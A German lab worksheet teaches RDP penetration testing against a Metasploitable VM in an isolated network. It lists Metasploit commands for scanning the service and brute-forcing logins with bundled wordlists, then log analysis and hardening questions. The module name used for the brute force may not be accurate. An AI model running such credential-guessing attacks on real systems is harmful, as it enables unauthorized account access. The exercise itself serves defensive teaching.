 # Übungsbeispiel 4: Brute-Force-Angriff auf ein Remote Desktop Protocol (RDP)

## Übersicht
Diese praktische Übung demonstriert die Sicherheitsrisiken von Remote Desktop Protocol (RDP) Diensten. 
Mithilfe von Metasploit werden verschiedene Angriffstechniken auf einen RDP-Server getestet:
- Port-Scanning zur Diensterkennung
- Brute-Force Attacken auf Zugangsdaten
- Analyse der Sicherheitslogs

Lernziele:
- Verstehen der RDP-Schwachstellen
- Praktische Erfahrung mit Penetration Testing Tools
- Entwicklung von Härtungsmaßnahmen

## Theoretische Aufgabe
1. Erkläre, warum schwache Passwörter ein großes Risiko bei RDP darstellen und recherchiere den Standard-Port.

## Praktische Übung - RDP Penetrationstest

### Voraussetzungen
- Kali Linux als Angreifer-System
- Metasploitable als Ziel-System
- Virtualisierungsumgebung
- Isoliertes Testnetzwerk

### Durchführung

1. **Vorbereitung des Zielsystems:**
   - Metasploitable starten und IP notieren
   - RDP-Dienst aktivieren:
   ```bash
   apt-get install xrdp
   /etc/init.d/xrdp start
   ```

2. **Reconnaissance:**
   ```bash
   # MSF-Konsole starten
   msfconsole
   
   # RDP-Scanner verwenden
   use auxiliary/scanner/rdp/rdp_scanner
   set RHOSTS [Ziel-IP]
   run
   ```

3. **Exploitation:**
   ```bash
   # RDP-Brute-Force-Modul
   use auxiliary/scanner/rdp/rdp_login
   set RHOSTS [Ziel-IP]
   set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
   set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
   run
   ```

4. **Log-Analyse:**
   - Auf dem Zielsystem:
   ```bash
   tail -f /var/log/auth.log
   grep "rdp" /var/log/auth.log
   ```

5. **Dokumentation:**
   - Gefundene Schwachstellen
   - Erfolgreiche/fehlgeschlagene Anmeldeversuche

### Auswertung
- Wie viele Anmeldeversuche wurden protokolliert?
- Welche Schwachstellen wurden identifiziert?
- Wie kann der RDP-Dienst gehärtet werden?
